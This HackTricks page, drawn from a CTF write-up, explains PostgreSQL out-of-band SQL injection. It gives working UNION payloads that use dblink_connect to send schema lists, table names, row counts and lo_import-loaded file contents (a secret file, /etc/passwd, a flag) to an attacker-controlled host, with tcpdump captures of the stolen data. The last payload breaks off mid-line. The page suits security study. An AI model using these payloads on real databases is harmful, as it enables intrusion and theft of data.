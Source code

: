# dblink/lo\_import data exfiltration

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

**This is an example of how to exfiltrate data loading files in the database with `lo_import` and exfiltrate them using `dblink_connect`.**

## Preparing the exfiltration server/Asynchronous SQL Injection

**Extracted from:** [**https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

Because the `pg_sleep` also doesn't cause delay, we can safely assume if query execution occurs in the background or asynchronously.

Normally, `dblink_connect` can be used to open a persistent connection to a remote PostgreSQL database (e.g. `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`). Because we can control the parameter of this function, we can perform SQL Server Side Request Forgery to our own host. That means, we can perform Out-of-Band SQL Injection to exfiltrate data from SQL query results. At least, there are two ways to do this:

1. Set up a **DNS server** and then trigger the connection to `[data].our.domain` so that we can see the data in the log or in the DNS network packets.
2. Set up a **public PostgreSQL server, monitor the incoming network packets to PostgreSQL port**, and then trigger a connection to our host with exfiltrated data as `user`/`dbname`. By **default**, PostgreSQL doesn't use SSL for communication so we can see `user`/`dbname` as a **plain-text** on the network.

The **second method is easier** because we don't need any domain. We only need to set up a server with a public IP, install PostgreSQL, set the PostgreSQL service to listen to \*/0.0.0.0, and run a network dumper (e.g. tcpdump) to monitor traffic to the PostgreSQL port (5432 by default).

To set PostgreSQL so that it will **listen to the public**, set `listen_addresses` in `postgresql.conf` to `*`.

```
listen_addresses = '*'
```

To monitor incoming traffic, run `tcpdump` to monitor port 5432.

```
sudo tcpdump -nX -i eth0 port 5432
```

To see if we get a connection from the target, we can try using this query:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```

If successful, we get a piece of network packet with readable `user` and `dbname`.

```
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
    0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
    0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
    0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
    0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
    0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
    0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```

Then, we can **continue to extract the database using several PostgreSQL queries**. Note that for each query result that contains whitespaces, we need to convert the result to **hex/base64** with `encode` function or replace the whitespace to other character with `replace` function because it will cause an execution error during `dblink_connect` process.

Get a **list** of **schemas**:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
    0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
    0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
    0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
    0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
    0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
    0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
    0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
    0x0070:  6f73 7467 7265 7300 00                   ostgres.
```

Get a **list** of **tables** in current schema:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
    0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
    0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
    0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
    0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
    0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
    0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```

**Count** the **rows** in `searches` table.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
    0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
    0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
    0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
    0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
    0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
    0x0050:  6772 6573 0000                           gres.
```

It looks like it only has one empty table in the current schema and the flag is not in the database. We may really need to exfiltrate data from `/var/lib/postgresql/data/secret`. Unfortunately, if we try to use `pg_read_file` or `pg_read_binary_file` to read the file, we will not get an incoming connection so that the current user may not have permission to use these functions.

#### More info of asynchronous SQLInjection with postdresql

* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

## **Exfiltrating large object contents**

It's possible to read file using large objects ([https://www.postgresql.org/docs/11/lo-funcs.html](https://www.postgresql.org/docs/11/lo-funcs.html)). We can use `lo_import` to load the contents of the file into the `pg_largeobject` catalog. If the query is success, we will get the object's `oid`.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
    0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
    0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
    0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
    0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
    0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
    0x0050:  706f 7374 6772 6573 0000                 postgres..
```

We got 24668 as `oid` so that means we can use `lo_import` function. Unfortunately, we won't get any results if we try to get the content of large object using `lo_get(24668)` or directly access the `pg_largeobject` catalog. **It looks like the current user doesn't have permission to read the content of new objects.**

After reading the documentation of large objects in PostgreSQL, we can find out that **large objects can has ACL** (Access Control List). That means, if there is an old object with an ACL that allows current user to read it, then we can exfiltrate that object's content.

We can get a list of available large object's `oid` by extracting from `pg_largeobject_metadata`.

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
    0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
    0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
    0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
    0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
    0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
    0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
    0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
    0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
    0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
    0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```

We got a bunch of `oid`s. We can try using `lo_get` to load object's content. For example, `lo_get(16439)` will load the content of `/etc/passwd`. Because the result of `lo_gets` is `bytea`, we need to convert it to `UTF8` so that it can be appended in the query.

We can try to load some objects with lowest `oid` to find out if the flag file has been loaded before. The flag file object does exist with `oid` 16444. There are no whitespaces in the flag so we can just display it as is.

To load the flag:

```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=p
```

#### More info of oid:

* [https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module](https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module)
* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
